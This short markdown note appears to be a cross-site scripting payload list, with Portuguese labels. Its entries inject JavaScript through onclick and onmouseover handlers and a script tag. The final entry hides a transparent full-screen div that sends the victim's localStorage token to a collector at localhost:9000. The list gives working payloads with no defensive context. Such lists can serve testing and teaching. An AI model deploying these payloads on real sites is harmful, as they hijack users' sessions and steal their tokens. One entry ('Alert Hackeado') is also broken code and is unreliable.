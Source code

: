 
# Button
`<button onclick="Alert Hackeado">Click me</button>`

# On mouse over
`<div onmouseover="alert('injetado!')" style="width:100vw; height: 100vh; color:transparent"> </div>`

# Script
`<script>alert('123')</script>`
 
# Request HTTP
`<div onmouseover="axios.post('http://localhost:9000/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`

